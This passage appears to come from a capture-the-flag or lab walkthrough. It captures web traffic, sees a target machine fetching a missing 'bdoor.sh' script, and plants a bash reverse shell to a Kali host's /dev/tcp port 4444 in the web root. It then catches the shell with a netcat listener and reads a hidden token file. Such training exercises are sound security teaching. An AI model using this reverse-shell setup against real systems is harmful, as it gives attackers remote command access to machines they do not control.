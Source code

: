 ```bash
sudo tcpdump -i eth0 port 80
```

6. Within this network traffic, we see the machine (`247.187.158.57`) is looking for a `bdoor.sh`; however, it is not present.

7. Let’s create a simple reverse shell bash script. Enter the following into `/var/www/html/bdoor.sh`. Ensure you replace the IP address (`10.5.5.64`) with your Kali VM’s IP address.

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.5.5.64/4444 0>&1
```

8. On Kali, create a netcat listener to receive the reverse shell.

```bash
nc -nlvp 4444
```

9. The Bot/C12 machine should download `bdoor.sh`, `execute bdoor.sh``, and establish a reverse shell within a few minutes.
10. Once you have the reverse shell in your netcat listener, you will find `token3.txt` at `/home/user/.token3.txt` (notice the file is hidden due to the leading period). View the token.

```bash
cat /home/user/.token3.txt
```
Here we see Token 3!